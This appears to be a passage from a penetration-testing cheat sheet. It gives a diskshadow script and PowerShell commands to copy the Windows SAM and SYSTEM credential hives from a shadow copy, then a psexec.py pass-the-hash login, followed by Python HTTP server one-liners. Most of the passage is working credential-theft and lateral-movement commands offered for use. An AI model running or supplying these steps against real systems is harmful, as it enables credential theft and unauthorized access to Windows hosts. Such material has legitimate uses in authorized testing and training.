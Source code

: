 For example, we implements the script.
```powershell
set context persistent nowriters
set metadata "C:\TempShadow\mydrive.cab"

begin backup
add volume c: alPias mydrive
create
expose %mydrive% z:
end backup

```

Run this script on Powershell
```
diskshadow /s script
```

After diskshadow, the backup copy script is implemented as follows:
[BackupCopy.ps1](tools/BackupCopy/BackupCopy.ps1)

Finally, run BackupCopy.ps1.
```
powershell -File BackupCopy.ps1 -Source "Z:\Windows\System32\Config\SYSTEM" -Destination "C:\TempShadow\SYSTEM.copy"

powershell -File BackupCopy.ps1 -Source "Z:\Windows\System32\Config\SAM" -Destination "C:\TempShadow\SAM.copy"
```

## Pass-the-Hash Attack
Windows sends the NTLM Hash instead of plain password.

We don't have to know the plain password to logon.
```
psexec.py -hashes :$Hash $User@$IP
```
Our best friend, called ChatGPT, said that wmiexec.py, Evil-WinRM, crackmapxec can also logon by using NTLM hash.


# Python
## Run HTTP Server
### python3
```
python -m http.server <port>
```
### python2
```
python -m SimpleHTTPServer <port>
```
